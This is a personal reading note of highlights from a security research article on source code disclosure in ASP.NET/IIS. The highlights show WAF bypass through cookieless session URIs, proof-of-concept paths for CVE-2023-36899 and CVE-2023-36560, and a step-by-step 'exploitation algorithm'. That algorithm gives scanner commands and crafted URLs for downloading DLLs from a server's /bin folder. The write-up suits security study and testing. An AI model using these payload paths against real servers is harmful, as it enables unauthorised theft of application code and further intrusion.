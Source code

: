 ```yaml
---
author: admin
aliases:
  - Source Code Disclosure in ASP.NET Apps
tags:
  - readwise/articles
  - dotnet
url: https://swarm.ptsecurity.com/source-code-disclosure-in-asp-net-apps/?__readwiseLocation=
date: 2024-08-22
---
```

# Source Code Disclosure in ASP.NET Apps

![rw-book-cover](https://swarm.ptsecurity.com/wp-content/uploads/2024/02/8fdda128-preview-2.png)

## Environment

It looked like my application was written in C# on the [dotNET](../../Dev,%20ICT%20&%20Cybersec/Dev,%20scripting%20&%20OS/dotNET.md) platform, was functioning under IIS, and was protected by a WAF based on nginx.

Knowing this was enough to bypass the 403 error:
![](https://swarm.ptsecurity.com/wp-content/uploads/2024/03/8cae72a2-403-bypass.png)
*The content of the “/login.aspx” page after bypassing the WAF (via a cookieless session)*

## Cookieless Sessions in ASP.NET

When you enable the ASP.NET feature in IIS, any page of the server starts accepting cookieless sessions. Here are different formats of these *cookieless sessions*:

| **.NET Version** | **URI**                    |
| ---------------- | -------------------------- |
| V1.0, V1.1       | /(XXXXXXXX)/               |
| V2.0+            | /(S(XXXXXXXX))/            |
| V2.0+            | /(A(XXXXXXXX)F(YYYYYYYY))/ |
| V2.0+            | …                          |
Source: [https://learn.microsoft.com/en-us/previous-versions/dotnet/articles/aa479315(v=msdn.10)](https://learn.microsoft.com/en-us/previous-versions/dotnet/articles/aa479315(v=msdn.10))

The ASP.NET cookieless sessions, along with PHP’s and Java’s analogs, have always been used for WAF bypass, session fixation, XSS, and all kinds of other attacks. [](https://read.readwise.io/read/01j5x540xtn7n0q4khdysj1bst)

Furthermore, Soroush Dalili (a.k.a. [@irsdl](https://twitter.com/irsdl)) recently discovered something new in this area: [Cookieless DuoDrop: IIS Auth Bypass & App Pool Privesc in ASP.NET Framework (CVE-2023-36899 & CVE-2023-36560)](https://soroush.me/blog/2023/08/cookieless-duodrop-iis-auth-bypass-app-pool-privesc-in-asp-net-framework-cve-2023-36899/).

Here are the POCs from Soroush Dalili’s article:

| **CVE**        | **PoC**                                                                                      |
| -------------- | -------------------------------------------------------------------------------------------- |
| CVE-2023-36899 | /WebForm/(S(X))/prot/(S(X))ected/target1.aspx  <br>/WebForm/(S(X))/b/(S(X))in/target2.aspx   |
| CVE-2023-36560 | /WebForm/pro/(S(X))tected/target1.aspx/(S(X))/  <br>/WebForm/b/(S(X))in/target2.aspx/(S(X))/ |

### Investigation

After obtaining the RCE, I was able to access the target’s `web.config` file. Then, I reduced it to the minimum possible configuration:
```xml
<?xml version="1.0" encoding="utf-8"?>
<configuration>
  <system.webServer>
    <modules runAllManagedModulesForAllRequests="true" />
  </system.webServer>
</configuration>
```

That was it. The `runAllManagedModulesForAllRequests` setting was the cause of our success.

### Scaling the POC

It quickly became clear that the technique works on other servers. The setting `runAllManagedModulesForAllRequests` isn’t rare and I was able to download a few DLLs from different websites the same day. [](https://read.readwise.io/read/01j5x57c3fnr67x82ecb9eh96r)

### Full Exploitation Algorithm

Here’s a brief guide on how to check the server on the vulnerability.

1. Check if cookieless sessions are allowed.
```
# If your application is in the main folder
/(S(X))/
/(Y(Z))/
/(G(AAA-BBB)D(CCC=DDD)E(0-1))/

# If your application is in a subfolder
/MyApp/(S(X))/
...
```

2. Optionally, use IIS-ShortName-Scanner. Note, its functionality doesn’t depend on whether cookieless sessions are enabled or not.
```bash
java -jar ./iis_shortname_scanner.jar 20 8 'https://X.X.X.X/bin::$INDEX_ALLOCATION/'
java -jar ./iis_shortname_scanner.jar 20 8 'https://X.X.X.X/MyApp/bin::$INDEX_ALLOCATION/'
```

In addition to `/bin`, I recommend you to check other special .NET folders:
```
/App_Code
/App_WebReferences
/App_GlobalResources
/App_LocalResources
/App_Data
/App_Themes
/App_Browsers
/Themes
/Views
/Models
/Controllers
```

3. Try to read DLLs. It’s necessary to reconstruct complete filenames from shortened 8.3 format filenames.
```
http://Y.Y.Y.Y/(S(x))/b/(S(x))in/MyApplicationFile.dll
http://Y.Y.Y.Y/MyApp/(S(x))/b/(S(x))in/MyApplicationFile.dll
```

The PDB files, if such exists, will not be accessible. [](https://read.readwise.io/read/01j5x588xgg46w4wmrmc2k91fj)

